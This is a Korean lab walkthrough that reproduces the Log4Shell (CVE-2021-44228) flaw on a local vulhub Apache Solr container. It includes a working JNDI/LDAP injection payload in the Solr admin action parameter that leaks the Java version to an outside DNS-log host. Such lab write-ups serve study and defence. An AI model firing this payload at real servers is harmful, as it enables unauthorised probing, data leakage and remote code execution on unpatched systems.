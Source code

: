 ![](picture/3.png)
- Picture 3. LDAP을 이용한 CVE-2021-44228 취약점 공격 구성도 (Radware 제공, 이글루코퍼레이션 번역)

## 피해자 서버 구축 - ver. vulhub original

Apache Log4j 2는 특정 웹 서비스가 아니라 서드파티 라이브러리(third-party library)일 뿐입니다.
따라서 Log4j 2에 의존하는 애플리케이션을 사용하여 이 취약성을 이용하는 방법을 시연할 수 있습니다.

다음 명령을 실행하여 Log4j 2.14.1을 사용하는 Apache Solr 8.11.0을 시작합니다.

```
docker compose up -d
```

서버를 시작하고, Host OS에서 `localhost:8983` 을 열면 Apache Solr의 관리자 페이지를 확인할 수 있습니다.

## 익스플로잇 - ver. vulhub original, using DNSLog

간단하게, 이 `${jndi:ldap://test.${java:version}.example.com}` 페이로드를 action parameter에 넣어보세요. 그러면 JNDI query를 트리거할 수 있습니다.
예시: `http://localhost:8983/solr/admin/cores?action=${jndi:ldap://test.${java:version}.[REDACTED].ipv6.1433.eu.org}`

- `[redacted]`는 정보를 가린 것일 뿐입니다.
- `[subdomain].ipv6.1433.eu.org` 은 DNS 로그를 제공하는 `https://dig.pm/` 사이트에서 제공받았습니다. 이러한 DNS 로그를 제공하는 다른 사이트를 찾고 싶으면 Google에 `dnslog` 또는 `dnslog platform`을 검색해주세요.

예시와 같이 접속합니다.
